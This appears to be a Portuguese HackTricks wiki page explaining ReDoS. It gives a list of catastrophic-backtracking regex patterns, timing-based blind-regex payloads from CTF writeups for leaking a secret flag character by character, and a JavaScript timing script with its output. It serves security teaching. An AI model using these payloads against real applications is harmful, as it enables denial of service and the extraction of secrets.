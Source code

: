 # Regular expression Denial of Service - ReDoS

{{#include ../banners/hacktricks-training.md}}

# Regular Expression Denial of Service (ReDoS)

Um **Regular Expression Denial of Service (ReDoS)** acontece quando alguém aproveita as fraquezas em como as expressões regulares (uma forma de buscar e combinar padrões em texto) funcionam. Às vezes, quando as expressões regulares são usadas, elas podem se tornar muito lentas, especialmente se o pedaço de texto com o qual estão trabalhando ficar maior. Essa lentidão pode crescer tanto que aumenta rapidamente com até mesmo pequenos aumentos no tamanho do texto. Os atacantes podem usar esse problema para fazer um programa que usa expressões regulares parar de funcionar corretamente por um longo tempo.

## O Algoritmo Naïve Problemático de Regex

**Verifique os detalhes em [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-\_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

## Evil Regexes <a href="#evil-regexes" id="evil-regexes"></a>

Um padrão de expressão regular malicioso é aquele que pode **ficar preso em uma entrada elaborada causando um DoS**. Padrões de regex maliciosos geralmente contêm agrupamento com repetição e repetição ou alternância com sobreposição dentro do grupo repetido. Alguns exemplos de padrões maliciosos incluem:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.\*a){x} para x > 10

Todos esses são vulneráveis à entrada `aaaaaaaaaaaaaaaaaaaaaaaa!`.

## ReDoS Payloads

### Exfiltração de String via ReDoS

Em um CTF (ou bug bounty), talvez você **controle a Regex com a qual uma informação sensível (a bandeira) é combinada**. Então, pode ser útil fazer a **página congelar (timeout ou tempo de processamento mais longo)** se a **Regex combinar** e **não se não combinar**. Dessa forma, você poderá **exfiltrar** a string **caractere por caractere**:

- Em [**este post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) você pode encontrar esta regra de ReDoS: `^(?=<flag>)((.*)*)*salt$`
- Exemplo: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- Em [**este writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html) você pode encontrar este: `<flag>(((((((.*)*)*)*)*)*)*)!`
- Em [**este writeup**](https://ctftime.org/writeup/25869) ele usou: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### Controle de Entrada e Regex em ReDoS

Os seguintes são exemplos de **ReDoS** onde você **controla** tanto a **entrada** quanto a **regex**:
```javascript
function check_time_regexp(regexp, text) {
var t0 = new Date().getTime()
new RegExp(regexp).test(text)
var t1 = new Date().getTime()
console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
//  "((a+)+)+$",  //Eternal,
//  "(a?){100}$", //Eternal
"(a|a?)+$",
"(\\w*)+$", //Generic
"(a*)+$",
"(.*a){100}$",
"([a-zA-Z]+)*$", //Generic
"(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```
## Ferramentas

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
- [https://devina.io/redos-checker](https://devina.io/redos-checker)

## Referências

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-\_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)

{{#include ../banners/hacktricks-training.md}}

